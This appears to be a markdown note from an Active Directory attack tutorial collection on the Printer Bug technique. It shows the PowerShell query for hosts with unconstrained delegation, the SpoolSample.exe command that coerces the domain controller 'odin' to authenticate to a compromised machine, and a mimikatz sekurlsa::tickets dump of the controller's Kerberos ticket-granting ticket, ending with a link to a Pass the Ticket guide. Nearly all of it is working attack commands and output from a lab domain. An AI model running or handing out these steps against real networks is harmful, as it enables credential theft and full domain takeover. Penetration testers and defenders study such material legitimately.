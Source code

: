 
# Printer Bug

there is 2 device :

pc-win10 unconstrained delegation enabled and compromised

odin - Domain controller

we will force DC to authenticate pc-win10 and will extract TGT from memory

checking delegation rights

	PS C:\Users\Administrator> Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properti
	es trustedfordelegation,serviceprincipalname,description


	Description          :
	DistinguishedName    : CN=PC-WIN10,OU=dirtyComputers,DC=valhalla,DC=local
	DNSHostName          : pc-win10.valhalla.local
	Enabled              : True
	Name                 : PC-WIN10
	ObjectClass          : computer
	ObjectGUID           : fdeb115b-fa2a-4948-b65a-f44eae75ad1c
	SamAccountName       : PC-WIN10$
	serviceprincipalname : {TERMSRV/PC-WIN10, TERMSRV/pc-win10.valhalla.local, RestrictedKrbHost/PC-WIN10,
						   HOST/PC-WIN10...}
	SID                  : S-1-5-21-3410397846-649609989-2919355437-2124
	TrustedForDelegation : True
	UserPrincipalName    :
	
	
Check in memory TGT with, there is no TGT in memory

	sekurlsa::tickets /export

Force DC to authenticate pc-win10

	PS C:\Users\testuser\Desktop> .\SpoolSample.exe odin pc-win10
	[+] Converted DLL to shellcode
	[+] Executing RDI
	[+] Calling exported function
	TargetServer: \\odin, CaptureServer: \\pc-win10
	Attempted printer notification and received an invalid handle. The coerced authentication probably worked!


Check TGT in memory

	sekurlsa::tickets
	Authentication Id : 0 ; 879231 (00000000:000d6a7f)
	Session           : Network from 0
	User Name         : ODIN$
	Domain            : VALHALLA
	Logon Server      : (null)
	Logon Time        : 25/08/2021 19:44:42
	SID               : S-1-5-21-3410397846-649609989-2919355437-1001

	* Username : ODIN$
	* Domain   : VALHALLA.LOCAL
	* Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
	[00000000]
	Start/End/MaxRenew: 25/08/2021 19:05:53 ; 26/08/2021 05:05:53 ; 01/09/2021 19:05:53
	Service Name (02) : krbtgt ; VALHALLA.LOCAL ; @ VALHALLA.LOCAL
	Target Name  (--) : @ VALHALLA.LOCAL
	Client Name  (01) : ODIN$ ; @ VALHALLA.LOCAL
	Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
	Session Key       : 0x00000001 - des_cbc_crc
	0c2bd7c1b7134a68478aa67e76cda120e73688273c8745388fe89cb82823b586
	Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]


Rest

[Pass the Ticket](https://github.com/vanhohen/ADNinja/blob/main/Tutorials/Pass%20the%20Ticket.md)
